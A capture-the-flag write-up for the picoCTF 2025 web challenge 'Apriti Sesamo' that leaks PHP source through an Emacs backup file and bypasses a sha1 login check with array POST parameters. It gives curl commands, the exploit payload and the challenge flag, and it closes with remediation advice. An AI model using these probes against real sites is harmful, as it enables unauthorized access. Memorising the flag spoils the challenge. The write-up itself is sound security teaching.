



# Apriti Sesamo — Web Exploitation

**Platform:** picoCTF 2025  
**Category:** Web Exploitation  
**Difficulty:** Medium  
**Points:** 300  
**Flag:** `picoCTF{s3ss4m0_0p3n_u9030ze4}`

---

## TL;DR

Two hints ("backup files" + "emacs user") point to an Emacs tilde-backup file (`impossibleLogin.php~`) that the web server serves as **plain text** instead of executing as PHP, leaking the full source code. The source, once deobfuscated, reveals a PHP type-juggling vulnerability: passing arrays as POST fields causes `sha1()` to return `NULL` for both arguments, making a strict `===` comparison succeed without ever producing a real hash.

---

## Given Hints

1. *"Backup files"*
2. *"Rumor has it, the lead developer is a militant emacs user"*

---

## Step 1 — Discovering the source via an Emacs backup file

Emacs automatically creates a backup of the **previous** version of any file it saves, by appending a tilde (`~`) to the filename:

| Original | Emacs backup |
|----------|--------------|
| `impossibleLogin.php` | `impossibleLogin.php~` |

Because the backup has a different extension (`.php~` instead of `.php`), Apache and nginx in their default configurations **do not execute it as PHP** — they serve it as a raw text file. This is a well-known web security gotcha: backup files in the web root can expose source code to anyone who guesses (or fuzzes) their names.

```bash
curl http://<host>:<port>/impossibleLogin.php~
```



The response contains the full, unexecuted PHP source.

---

## Step 2 — Deobfuscating the source

The leaked code wraps every variable and string name in `base64_decode()` with octal/hex-escaped arguments:

```php
if(isset($_POST[base64_decode("\144\130\x4e...")]) ...
```

Decoding each `base64_decode(...)` call (CyberChef → "From Base64" is fastest) reveals the actual logic:

```php
<?php
if (isset($_POST['username']) && isset($_POST['pwd'])) {
    $a = $_POST['username'];
    $b = $_POST['pwd'];

    if ($a == $b) {
        echo "Failed! No flag for you";
    } else {
        if (sha1($a) === sha1($b)) {
            echo file_get_contents('../flag.txt');
        } else {
            echo "Failed! No flag for you";
        }
    }
}
?>
```



Two sequential checks:

| Check | Condition | Purpose |
|-------|-----------|---------|
| #1 | `$a == $b` (loose) | Rejects the trivial case of identical inputs |
| #2 | `sha1($a) === sha1($b)` (strict) | "Unbreakable" hash equality — or so the developer thought |

The developer's assumption: "if the raw strings differ, their SHA-1 hashes will also differ, and `===` is strict, so this cannot be bypassed." This assumption is wrong.

---

## Step 3 — PHP type juggling: passing arrays to `sha1()`

**Key fact:** `sha1()` expects a string. If given a non-string, PHP 7.x cannot hash it and returns `NULL`, emitting a warning.

Watch what happens when both POST values are **arrays with different contents**:

```
$a = [1];   // Array
$b = [2];   // Array, different value
```

**Check #1:** `$a == $b`  
PHP compares arrays element-by-element. `[1] ≠ [2]` → `false` → check #1 does **not** trigger. We proceed to check #2. ✓

**Check #2:** `sha1($a) === sha1($b)`  
`sha1([1])` → can't hash an array → returns `NULL`  
`sha1([2])` → same → returns `NULL`  
`NULL === NULL` → `true` (same type, same value) → flag is printed. ✓

Both conditions are satisfied simultaneously: the values are "different" (bypassing check #1), yet their "hashes" are equal (passing check #2).

---

## Step 4 — Sending arrays in a POST request

In PHP, a form field name ending with `[]` is automatically parsed as an array. This is a standard PHP feature (used normally for multi-select checkboxes) that here becomes the exploitation primitive.

Normal request:
```
username=admin&pwd=admin
```

Exploit request:
```
username[]=1&pwd[]=2
```

Full `curl` command:

```bash
curl -X POST http://verbal-sleep.picoctf.net:<port>/impossibleLogin.php \
     -d "username[]=1&pwd[]=2"
```



The response body contains the contents of `../flag.txt` — the flag.

---

## Attack Chain

```
Guess Emacs backup filename: impossibleLogin.php~
         │
         ▼
Server serves raw PHP source (no execution of .php~ files)
         │
         ▼
Deobfuscate base64-wrapped variable names → clean login logic
         │
         ▼
Spot type juggling bug: sha1(array) → NULL
         │
         ▼
POST username[]=1&pwd[]=2 → both sha1() calls return NULL
         │
         ▼
NULL === NULL → true → flag.txt echoed in response
```

---

## Root Cause

| Issue | Detail |
|-------|--------|
| Backup file in web root | `.php~` served as plain text, leaking source |
| No input type validation | `$_POST['username']` accepted as-is, not cast to string before `sha1()` |
| `sha1()` type coercion | Returns `NULL` for non-string input instead of raising a hard error |
| Assumption that `===` is sufficient | Strict type equality cannot save a comparison when both sides collapse to `NULL` |

---

## Remediation

1. **Never leave editor backup files (`.php~`, `.bak`, `~`, `.swp`) in the web root.** Configure the web server to deny access to such patterns (e.g. `location ~ \~$ { deny all; }` in nginx), or better, keep all source files outside the web root entirely and only expose the entry point.
2. **Always validate and cast user input before security-critical operations.** A single `$a = (string) $_POST['username'];` would have prevented the array trick.
3. **Understand your language's type system.** PHP's `sha1()` has historically been a source of type-juggling bugs. Use `hash('sha256', (string) $input)` and add explicit `is_string()` guards around authentication logic.
4. **The general lesson:** never rely on an encoding / hashing function to behave correctly on unexpected input types without explicit validation.
